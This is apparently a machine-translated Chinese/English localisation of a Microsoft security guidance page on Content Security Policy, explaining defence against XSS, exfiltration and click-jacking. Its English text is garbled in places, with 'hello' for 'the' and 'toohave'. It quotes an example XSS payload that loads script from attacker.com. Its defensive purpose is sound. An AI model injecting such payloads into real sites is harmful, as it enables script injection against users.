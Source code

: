 | <span data-ttu-id="7ec21-153">**步驟**</span><span class="sxs-lookup"><span data-stu-id="7ec21-153">**Steps**</span></span> | <p><span data-ttu-id="7ec21-154">內容安全性原則 (CSP) 為深度防禦的安全性機制，W3C 標準，可讓 web 應用程式擁有者 toohave 控制項 hello 內容內嵌在其站台上。</span><span class="sxs-lookup"><span data-stu-id="7ec21-154">Content Security Policy (CSP) is a defense-in-depth security mechanism, a W3C standard, that enables web application owners toohave control on hello content embedded in their site.</span></span> <span data-ttu-id="7ec21-155">CSP 會加入成為 hello web 伺服器上的 HTTP 回應標頭，並且在 hello 用戶端瀏覽器會強制執行。</span><span class="sxs-lookup"><span data-stu-id="7ec21-155">CSP is added as an HTTP response header on hello web server and is enforced on hello client side by browsers.</span></span> <span data-ttu-id="7ec21-156">這是以白名單為基礎的原則 - 網站可以宣告一組可從中載入主動式內容 (例如 JavaScript) 的受信任網域。</span><span class="sxs-lookup"><span data-stu-id="7ec21-156">It is a whitelist-based policy - a website can declare a set of trusted domains from which active content such as JavaScript can be loaded.</span></span></p><p><span data-ttu-id="7ec21-157">CSP 提供下列安全性優點的 hello:</span><span class="sxs-lookup"><span data-stu-id="7ec21-157">CSP provides hello following security benefits:</span></span></p><ul><li><span data-ttu-id="7ec21-158">**防止 XSS:**如果分頁是很容易遭受 tooXSS，攻擊者可以利用它 2 的方式：</span><span class="sxs-lookup"><span data-stu-id="7ec21-158">**Protection against XSS:** If a page is vulnerable tooXSS, an attacker can exploit it in 2 ways:</span></span><ul><li><span data-ttu-id="7ec21-159">插入 `<script>malicious code</script>`。</span><span class="sxs-lookup"><span data-stu-id="7ec21-159">Inject `<script>malicious code</script>`.</span></span> <span data-ttu-id="7ec21-160">此利用將無法運作到期 tooCSP 的限制-1 為基底</span><span class="sxs-lookup"><span data-stu-id="7ec21-160">This exploit will not work due tooCSP’s Base Restriction-1</span></span></li><li><span data-ttu-id="7ec21-161">插入 `<script src=”http://attacker.com/maliciousCode.js”/>`。</span><span class="sxs-lookup"><span data-stu-id="7ec21-161">Inject `<script src=”http://attacker.com/maliciousCode.js”/>`.</span></span> <span data-ttu-id="7ec21-162">Hello 攻擊者控制網域都不會在網域的 CSP 的允許清單中，此利用將無法運作</span><span class="sxs-lookup"><span data-stu-id="7ec21-162">This exploit will not work since hello attacker controlled domain will not be in CSP’s whitelist of domains</span></span></li></ul></li><li><span data-ttu-id="7ec21-163">**控制資料滲透：** CSP 如果網頁上的任何惡意內容嘗試 tooconnect tooan 外部網站，並竊取資料，將會中止 hello 的連接。</span><span class="sxs-lookup"><span data-stu-id="7ec21-163">**Control over data exfiltration:** If any malicious content on a webpage attempts tooconnect tooan external website and steal data, hello connection will be aborted by CSP.</span></span> <span data-ttu-id="7ec21-164">這是因為 hello 目標網域，都不會在 CSP 的白名單</span><span class="sxs-lookup"><span data-stu-id="7ec21-164">This is because hello target domain will not be in CSP’s whitelist</span></span></li><li><span data-ttu-id="7ec21-165">**防禦機制以防止按一下 jacking:**按一下 jacking 是一種攻擊技巧使用敵人可以框架正版的網站，並強制使用者 tooclick UI 項目上。</span><span class="sxs-lookup"><span data-stu-id="7ec21-165">**Defense against click-jacking:** click-jacking is an attack technique using which an adversary can frame a genuine website and force users tooclick on UI elements.</span></span> <span data-ttu-id="7ec21-166">目前可藉由設定回應標頭- X-Frame-Options 來防禦點擊劫持。</span><span class="sxs-lookup"><span data-stu-id="7ec21-166">Currently defense against click-jacking is achieved by configuring a response header- X-Frame-Options.</span></span> <span data-ttu-id="7ec21-167">並非所有瀏覽器尊重此標頭，並將正向 CSP 會針對按一下 jacking 標準方式 toodefend</span><span class="sxs-lookup"><span data-stu-id="7ec21-167">Not all browsers respect this header and going forward CSP will be a standard way toodefend against click-jacking</span></span></li><li><span data-ttu-id="7ec21-168">**即時攻擊 reporting:** CSP 啟用網站的資料隱碼攻擊時，瀏覽器將會自動觸發 hello 網頁伺服器上設定的通知 tooan 端點。</span><span class="sxs-lookup"><span data-stu-id="7ec21-168">**Real-time attack reporting:** If there is an injection attack on a CSP-enabled website, browsers will automatically trigger a notification tooan endpoint configured on hello webserver.</span></span> <span data-ttu-id="7ec21-169">如此一來，CSP 可當作即時警告系統。</span><span class="sxs-lookup"><span data-stu-id="7ec21-169">This way, CSP serves as a real-time warning system.</span></span></li></ul> |

### <a name="example"></a><span data-ttu-id="7ec21-170">範例</span><span class="sxs-lookup"><span data-stu-id="7ec21-170">Example</span></span>
<span data-ttu-id="7ec21-171">範例原則︰</span><span class="sxs-lookup"><span data-stu-id="7ec21-171">Example policy:</span></span> 
```C#
Content-Security-Policy: default-src 'self'; script-src 'self' www.google-analytics.com 
```
<span data-ttu-id="7ec21-172">此原則可讓指令碼 tooload 只能從 hello web 應用程式的伺服器和 google analytics 伺服器。</span><span class="sxs-lookup"><span data-stu-id="7ec21-172">This policy allows scripts tooload only from hello web application’s server and google analytics server.</span></span> <span data-ttu-id="7ec21-173">將會拒絕從任何其他網站載入的指令碼。</span><span class="sxs-lookup"><span data-stu-id="7ec21-173">Scripts loaded from any other site will be rejected.</span></span> <span data-ttu-id="7ec21-174">CSP 是在網站上啟用，hello 下列功能會自動停用的 toomitigate XSS 攻擊。</span><span class="sxs-lookup"><span data-stu-id="7ec21-174">When CSP is enabled on a website, hello following features are automatically disabled toomitigate XSS attacks.</span></span> 

### <a name="example"></a><span data-ttu-id="7ec21-175">範例</span><span class="sxs-lookup"><span data-stu-id="7ec21-175">Example</span></span>
<span data-ttu-id="7ec21-176">將不會執行內嵌指令碼。</span><span class="sxs-lookup"><span data-stu-id="7ec21-176">Inline scripts will not execute.</span></span> <span data-ttu-id="7ec21-177">以下是內嵌指令碼的範例</span><span class="sxs-lookup"><span data-stu-id="7ec21-177">Following are examples of inline scripts</span></span> 
```javascript
<script> some Javascript code </script>
```